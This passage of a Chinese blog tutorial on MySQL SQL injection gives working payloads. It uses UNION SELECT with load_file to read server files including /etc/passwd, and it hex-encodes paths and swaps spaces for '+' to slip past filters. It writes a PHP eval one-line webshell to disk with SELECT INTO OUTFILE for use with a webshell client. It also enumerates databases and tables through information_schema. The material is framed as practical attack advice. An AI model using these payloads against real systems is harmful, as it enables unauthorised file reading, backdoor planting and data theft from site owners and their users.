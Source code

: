 在我的服务器上有个文件："d:/test.txt"，里面内容是："key:HelloWorld."，看我用load_file把他读取出来：


    select * from hehe where id=3 and 1=2 union select 0,load_file("d:/test.txt"),count(*) from mysql.user;

![][17]

**总结：“A语句 UNION B语句” 中的这个UNION就是把最终的结果集放到“A语句"的属性（列）下。上图上结果是把0，放到列1下，把load_file("d:/tes.txt")的内容放到列2下，把count(*)返回的结果放到列3下。很科学地达到了我们读取服务器文件的目的。**

****

Ps：上面的 1=2 看到了吗？是让”A语句“查询结果为空，看着舒服。

Ps：这个load_file()用在MySQL中

**load_file的过滤**

实战中URL写成load_file("/etc/passwd")一般会被过滤，所以不科学，不过我们可以用16进制来表示（hex）就好啦：

打开UltraEdit，然后把 /etc/passwd 放到里面，然后右键有个16进制编辑，然后就看到了 16进制 了： 0x2F6574632F706173737764，知道为什么要加这个“0x”吗？因为它是16进制。。。

**Ps：经验哦~如果过滤了空格就用“+”表示**

## 三 用select into outfile 把一句话木马写进文件 


    select '<?php eval($_POST[cmd])?>'  into outfile 'c://aa.php';

![][18]

然后我们将会看到：

![][19]

里面有一句话木马： **<?php eval($_POST[cmd]) ?>**然后就能用菜刀去连接了。（什么不知道什么叫做一句话木马？什么叫做菜刀？赶紧去google吧）

**总结：获得数据库权限真的是一件好事啊~~**

## 四.用系统函数+UNOIN暴出数据库的信息（如果web不禁用，极其高效！）

**information_schema.SCHEMATA表中的SCHEMA_NAME**查看 **所有的数据库** **：**


    select * from hehe where id=3 and 1=2  union select 0,0,SCHEMA_NAME from information_schema.SCHEMATA limit 1,2;

![][20]

****

**information_schema.TABLES 表中的TABLE_NAME和TABLE_SCHEMA查看 所有的表名和所在的数据库：**


    select TABLE_NAME ,TABLE_SCHEMA from information_schema.TABLES where TABLE_SCHEMA = "haha"

**![][21]**


[0]: http://blog.csdn.net/emaste_r/article/details/8156108
[4]: #
[5]: #t0
[6]: #t2
[7]: #t3
[8]: #t4
[9]: ../img/1352253846_8091.png
[10]: ../img/1352254022_5092.PNG
[11]: ../img/1352254257_9095.PNG
[12]: ../img/1352255252_3354.PNG
[13]: ../img/1352255476_6499.PNG
[14]: ../img/1352255740_3935.PNG
[15]: ../img/1352268271_7414.PNG
[16]: ../img/1352267865_5540.PNG
[17]: ../img/1352260121_8624.PNG
[18]: ../img/1352277393_2619.PNG
[19]: ../img/1352277427_4798.PNG
[20]: ../img/1352269608_4152.PNG
[21]: ../img/1352271242_1019.PNG
[22]: ../img/1352271465_3588.PNG
[23]: ../img/1352265001_2115.PNG
[24]: ../img/1352265099_6455.PNG
[25]: ../img/1352265202_6346.PNG
[26]: ../img/1352265847_4536.PNG
[27]: ../img/1352268965_6686.PNG